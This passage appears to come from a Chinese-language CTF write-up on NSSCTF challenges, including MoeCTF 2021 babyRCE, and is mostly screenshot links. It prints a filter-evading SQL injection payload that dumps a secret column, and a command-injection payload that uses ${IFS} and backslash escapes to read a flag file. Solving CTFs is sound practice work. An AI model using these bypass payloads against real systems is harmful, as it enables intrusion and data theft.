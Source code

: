```
nss=-1'/**/uunionnion/**/select/**/1,group_concat(Secr3t),3/**/from/**/NSS_db.NSS_tb/**/limit/**/1,1#
```

![image-20250817123714257](./NSSCTF-6.assets/image-20250817123714257.png)

# [MoeCTF 2021]babyRCE

![image-20250818082736245](./NSSCTF-6.assets/image-20250818082736245.png)

过滤掉不少东西，尝试传入ls

![image-20250818082950101](./NSSCTF-6.assets/image-20250818082950101.png)

```
c\at${IFS}fl\ag.php
```

![image-20250818083215275](./NSSCTF-6.assets/image-20250818083215275.png)
